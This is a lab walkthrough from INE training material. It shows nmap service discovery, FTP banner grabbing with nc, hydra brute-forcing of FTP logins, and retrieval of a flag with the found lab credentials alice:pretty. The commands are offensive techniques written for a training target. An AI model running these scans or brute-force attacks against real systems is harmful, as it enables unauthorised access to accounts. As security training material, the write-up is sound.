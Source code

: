 # FTP Login Brute Force & Banner Grabbing

## Challenge Title
Discover Hidden FTP Service, Extract Users from Banner, Brute Force Credentials, and Retrieve the Flag.

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Identify hidden services using Nmap, enumerate users from FTP banner, brute force FTP credentials, and extract flag3 from the user directory.

---

## Tools Used

- `nmap` – for service enumeration
- `nc` – for FTP banner grabbing
- `hydra` – for brute-force attacks
- `ftp` – to retrieve flag manually

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Nmap Scan

Initial scan shows SMB and SSH.

```bash
nmap -sV target.ine.local
```
![Step 1](./1.png)

To discover all services, use full port scan:

```bash
nmap -p- -sV target.ine.local
```
We find an FTP service on port `5554`.

![Step 2](./2.png)

### 🔹 Step 2: Grab FTP Banner

```bash
nc target.ine.local 5554
```
The banner reveals three potential usernames: ashley, alice, amanda.

![Step 3](./3.png)

### 🔹 Step 3: Create User Wordlist

```bash
nano users.txt
```
```text
alice
ashley
amanda
```
![Step 4](./4.png)

![Step 5](./5.png)

### 🔹 Step 4: Brute Force FTP Credentials
Using Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Success! Found valid credentials:
- Username: alice
- Password: pretty

![Step 6](./6.png)

### 🔹 Step 5: Access FTP and Download Flag
```bash
ftp target.ine.local 5554
```
Login with `alice:pretty`
Use `ls` to list and `get flag3.txt` to download.

![Step 7](./7.png)

### 🔹 Step 6: View Retrieved Flag
```bash
cat flag3.txt
```
Output:
```bash
FLAG3{232c4bdafc8844129123cfaeaa5c4e68}
```
![Step 8](./8.png)

## Conclusion
Through enumeration, service discovery, and brute-forcing techniques, we were able to extract sensitive credentials and retrieve the flag from a hidden FTP service.

## Files Included
- `users.txt` – Created for brute-forcing
- `1.png` → `8.png` – Screenshots documenting each step
